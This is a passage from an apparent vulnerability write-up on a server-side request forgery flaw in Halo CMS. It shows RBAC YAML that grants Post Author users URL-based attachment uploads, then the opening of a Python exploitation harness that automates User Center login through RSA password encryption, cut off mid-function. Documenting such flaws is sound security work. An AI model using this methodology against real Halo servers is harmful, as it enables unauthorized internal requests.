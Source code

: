 ### RBAC Analysis - Critical Finding

**Expected:** Admin-only functionality  
**Reality:** Accessible to content creators with Post Author role

```yaml
# role-template-uc-content.yaml
name: role-template-post-author
dependencies: |
  [ "role-template-post-contributor", "role-template-post-publisher",
    "role-template-uc-attachment-manager" ]  # ❌ Includes attachment permissions

# role-template-uc-attachment.yaml
name: role-template-uc-attachment-manager  
rules:
  - apiGroups: [ "uc.api.storage.halo.run" ]
    resources: [ "attachments", "attachments/upload", "attachments/upload-from-url" ]
    verbs: [ "create", "list" ]              # ❌ Allows SSRF exploitation
```

**Impact:** Any user with Post Author role can exploit this SSRF vulnerability - significantly broader attack surface than anticipated.

---

## 🛠 Exploitation Methodology

### Challenge: User Center Authentication

Halo CMS requires sophisticated authentication for User Center access:

1. **RSA Public Key Extraction** from login page JavaScript
2. **Client-side Password Encryption** using RSA PKCS#1 v1.5
3. **CSRF Token Management** from login forms  
4. **Session Cookie Authentication** for API requests

### Solution: Robust Authentication Framework

I developed a comprehensive authentication system:

```python
class HaloSSRFUploadTest:
    def __init__(self, base_url, username, password):
        self.base_url = base_url
        self.username = username
        self.password = password
        self.session = requests.Session()
        self.authenticated = False
        
    def get_rsa_public_key(self):
        """Extract RSA public key from Halo's login page"""
        try:
            response = self.session.get(f"{self.base_url}/console")
            if response.status_code == 200:
                # Parse embedded RSA public key from JavaScript
                key_pattern = r'const publicKey = `([^`]+)`'
                key_match = re.search(key_pattern, response.text)
                if key_match:
                    pem_content = key_match.group(1)
                    return RSA.import_key(pem_content)
        except Exception as e:
            print(f"❌ RSA key extraction failed: {e}")
        return None
        
    def encrypt_password(self, password, public_key):
        """Encrypt password using RSA PKCS#1 v1.5"""
```